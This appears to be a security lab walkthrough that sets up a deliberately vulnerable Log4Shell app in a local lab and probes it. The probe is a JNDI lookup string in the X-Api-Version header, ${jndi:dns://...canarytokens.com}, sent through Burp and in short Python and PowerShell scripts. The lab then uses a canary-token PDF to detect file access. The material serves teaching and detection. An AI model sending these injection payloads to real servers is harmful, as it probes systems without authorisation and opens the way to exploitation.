# Methodology: Action Sequence

## Prerequisites

1. Launch Hyper-V manager:


2. Start pfsense, dc-1, ubnt20.04-1, win10-1 VMs:



3. Launch PuTTY to SSH to the Ubuntu server:



4. Launch the Spring platform through Docker:

```ubuntu
sudo docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929 
```
## Probing Vulnerable Services

1. Visit https://canarytokens.org/generate on your lab host.

2. Select the DNS token type, enter your email address and username as your token reminder.



3. Click Create my Canarytoken and a unique DNS token will be provided:



4. Now that we have our token, we can use this to probe our application to see if we can get the backend logging engine (Log4J in this case) to execute an arbitrary DNS lookup. To do so, we need to ensure that we pass a properly formatted string to Log4J so that it executes the lookup. The screenshots below from the [Log4J documentation](https://logging.apache.org/log4j/2.x/manual/lookups.html) describe the purpose and pattern for the JNDI lookup.





Given the pattern shown above, our formatted string will look something like this:

```ubuntu
${jndi:dns://<YOUR TOKEN HERE>.canarytokens.com}
```

5. Now we need to get our Spring instance to log this formatted string to determine if it is vulnerable. To understand what Spring logs, let’s try browsing to the page and observe the output in our SSH session. Browsing to http://erp.lab.lcl:8080/, we get the error page below:



6. Returning to the PuTTY session and reviewing the output tells us that the failure occurred because our request was missing a required header: X-Api-Version



7. To manipulate the request headers, launch Burp suite: a web application security test suite. After accepting the EULA, a new temporary project is created using the Burp defaults.



8.	Switching to the Proxy tab and turning Intercept on allows us to intercept requests to review and/or manipulate them before forwarding them on to the web service.



9.	Click the Open Browser button to launch the Burp suite Chrome browser and visiting <http://erp.lab.lcl:8080> shows that the browser won’t immediately redirect to the page. It will remain on the Burp Suite homepage. This is because the request has been intercepted by Burp. Returning to Burp suite, note the request details that appear on the Raw tab:



10. The header we were missing was X-Api-Version. Appending it to line 9, clicking Forward, and visiting <http://erp.lab.lcl:8080> shows the intended results:





11. Note the output in the Spring logs includes the text supplied for the version header. There is now an avenue for injecting a formatted string into the logs.


12. Return to Burp and review the HTTP history tab. Select the first request in the list. This includes both the request and the Hello, world! response from the web server. Sending the request to the Repeater will allow us to manipulate the request and resend it.





13. Modify the X-Api-Version header to a token value and send the request (as noted earlier, the format of the X-Api-Version header value should be: ${jndi:dns://your_token_here.canarytokens.com}). Shortly after execution, an alert is triggered:





14. Clicking on the history page gives more details about the event:





## Automating Probes

In the samples below, replace the string \<YOUR TOKEN HERE\> with the token value. Whether or not PowerShell or Python is chosen is up to the automater's preference. 

Python:

```python
import requests
canary = "<YOUR TOKEN HERE>.canarytokens.com"
headers = { "X-API-Version": f"${{jndi:dns://{canary}}}"}
requests.get(url="http://erp.lab.lcl:8080", headers=headers)
```

PowerShell:

```PowerShell
$headers = @{"X-API-Version"="`${jndi:dns://<YOUR TOKEN HERE>.canarytokens.com}"}
wget http://erp.lab.lcl:8080 -Headers $headers
```

## Identifying Illegitimate Access

1.	On your lab host, a new token is created of the type: Acrobat Reader PDF document



2. After entering a notification email address and a trigger note, add webhook option. For this lab, something like <https://hooks.slack.com/services/REDACTED/REDACTED/REDACTED> was used. Then download the PDF file and save it into the Share folder on the C: drive.





3. Log into your Windows 10 host, Ignore the activation message. Open the file explorer and browse to a shared folder over SMB network share using a UNC path (\\192.168.0.1\share). Open the PDF file with Adobe Acrobat and click allow to trigger the Canary.





4. Chrome opens and attempts to reach the canarytokens domain. A message in slack Slack indicates that the token was triggered. The browser may tip off the user that something was captured, but by then, the information has already been sent to the external canary. Additionally, if the canary service is named discreetly (i.e. without the word canary in it), then it may appear to be more of an anomaly to the user.




